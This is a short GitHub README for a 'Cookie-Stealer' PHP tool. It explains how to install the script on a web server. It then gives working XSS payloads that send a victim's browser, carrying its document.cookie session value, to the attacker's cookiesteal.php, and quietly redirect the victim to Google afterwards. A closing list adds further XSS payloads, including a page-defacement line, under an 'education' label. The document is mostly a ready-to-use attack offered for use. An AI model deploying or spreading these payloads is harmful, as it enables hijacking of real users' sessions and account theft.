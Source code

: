 # Cookie-Stealer

### This Basic Script Let you get "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**
<h2>How To Use It</h2>

1. The File Called **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? For an Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can change it whatever you want the original is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`


### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```

